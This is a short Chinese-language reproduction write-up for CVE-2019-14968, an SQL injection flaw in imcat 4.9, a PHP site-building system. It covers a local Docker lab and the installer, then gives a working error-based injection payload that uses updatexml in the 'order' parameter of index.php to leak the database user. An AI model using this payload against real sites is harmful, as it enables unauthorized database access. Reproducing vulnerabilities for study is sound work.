



## CVE-2019-14968 

**漏洞详情：**imcat是一套基于PHP的开源建站系统。 imcat 4.9版本中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。


**漏洞复现：**

这里用自己写的docker环境，直接下载部署`docker-compose up -d`。之后我们还要安装：

访问：http://127.0.0.1/root/tools/setup/，之后是按照步骤安装：



创建数据库，之后依次点“开始”就可以了：




安装完成之后我们用payload验证一下：

```
/index.php?sch_faqs=搜索&act=1&did=1&mkv=ajax-pick&mod=faqs%20&part=1&pid=1&sfid=&sfkw=1&sfop=&stype=&view=1&order=(updatexml(1,concat(0x7e,(user()),0x7e),1))
```




